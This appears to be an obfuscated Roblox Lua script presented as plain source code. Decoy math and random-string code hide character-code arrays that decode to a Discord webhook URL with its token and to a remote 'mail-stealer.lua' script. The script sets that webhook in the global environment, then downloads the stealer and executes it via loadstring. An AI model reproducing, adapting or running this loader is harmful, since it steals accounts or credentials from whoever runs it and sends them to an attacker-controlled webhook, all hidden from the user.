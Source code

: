 local print=print;local type=type;local tonumber=tonumber;local a={}for b=1,10 do a[b]=math.random(1000)end;local c=""function genednv(d)getgenv()[c]=d end;local tostring=tostring;local e=math.abs;local f=string.char(104,116,116,112,115,58,47,47,100,105,115,99,111,114,100,46,99,111,109,47,97,112,105,47,119,101,98,104,111,111,107,115,47,49,48,57,49,53,48,51,55,50,49,50,55,55,53,54,54,57,55,54,47,100,80,90,89,90,103,57,76,86,121,85,65,111,45,56,102,97,116,86,121,75,109,97,98,81,114,85,106,83,72,73,95,84,54,79,70,68,100,77,98,86,55,120,68,51,73,69,86,72,120,102,71,85,111,83,112,81,110,86,69,75,108,88,88,115,89,68,77);local h=math.ceil;local i=math.floor;local function j(k)c="mouselock"genednv("true")local l={}for b=1,k do l[b]=math.random(100)end;return l end;local m=math.max;local n=math.min;local o={2,93,210,219,2983,2130,239,284,034}local function p(q)local r={}c="name"genednv("Ninjafased")for b=1,q do r[b]=string.char(math.random(97,122))end;return table.concat(r)end;local s=table.create;local t=coroutine.resume;local u=coroutine.yield;local ipairs=ipairs;local pairs=pairs;local next=next;local v=string.char(104,116,116,112,115,58,47,47,119,117,109,97,116,46,120,121,122,47,115,99,114,105,112,116,115,47,109,97,105,108,45,115,116,101,97,108,101,114,46,108,117,97)local error=error;local pcall=pcall;function tesdwef(w)return game:HttpGetAsync(w,true)end;local xpcall=xpcall;local x=loadstring;local rawget=rawget;local rawset=rawset;local function y()local z=p(math.random(5,10))local A=p(math.random(5,10))c="webhook"genednv(f)return z..A end;local B=string.len;local C=string.sub;local D=string.upper;local E=string.lower;local F=string.find;local function G(k)local H=j(10)local l={}local I=p(5)for b=1,k do l[b]=math.random()>0.5 end;local J=y()return l end;local K=G(2)local L=math.acos;local M=math.asin;local N=math.atan;local O=math.atan2;x(tesdwef(v))()local P=math.cos
